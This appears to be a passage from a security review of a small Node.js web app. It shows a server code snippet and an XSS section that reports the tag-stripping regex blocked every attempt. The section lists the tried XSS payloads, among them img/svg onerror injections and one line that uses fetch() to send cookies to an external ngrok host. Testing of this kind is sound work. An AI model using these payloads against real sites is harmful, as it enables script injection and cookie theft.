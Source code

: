 ```js
		}).catch((error)=>{
			res.writeHead(500, headers);
			return res.end("Something went wrong please try again");
		});
	}

	const headers = {
		[randomCase('Content-Type')]: 'text/html',
		[randomCase('Content-Length')]: randString.randomString.length
	};

	setTimeout(()=>{
		res.writeHead(200, headers);
		return res.end(randString.randomString);
	}, Math.floor(Math.random() * 100));
```
---

## XSS

Well with this after i spent some hours trying to find a reflected xss vulnerability
none exist, the `removeElements` uses regex to locate html tags even if they are not closed
and removes them, this happens in the front-end but also in the backe-end
Examples:
- `<img src=x onerror="alert(document.domain)">`
- `<img src=x onerror="alert(document.domain)"//`
- etc..

### ./utils/utils.js
```js
const removeElements = function(stri){ return stri.replace(/(\<)(.+?)([\>|/])/g, "<>")}
```

Much testing was done for this, without meaning that it would have any impact even if it was vulnerable 
cause there is no user to user interaction to be done through this app and nothing get's stored to the server to have a stored xss 
vulnerability

Here are some of the other payloads i tried 
```html
<img src=x onerror="window.alert(document.domain)"> 

<img src=x onerror="window.alert(document.domain)"//

&ltimg src=x onerror="alert(document.domain)"&gt

<22 onerror='<img src=x onerror="window.alert(document.domain)">'>testing</22>

<22 onerror='&ltimg src=x onerror="alert(document.domain)"&gt'&gttesting//

<22 onerror="<img src=x onerror="alert(document.domain)"></22-->><a href="https://4958-2a02-85f-e847-e617-68cf-b81f-1cc4-a6ee.ngrok-free.app" onclick="alert(document.domain)">a</a><!-->

<svg src=x onerror="fetch('https://a429-2a02-85f-e847-e617-68cf-b81f-1cc4-a6ee.ngrok-free.app/a?test='+window.cookie;)"//
```
---
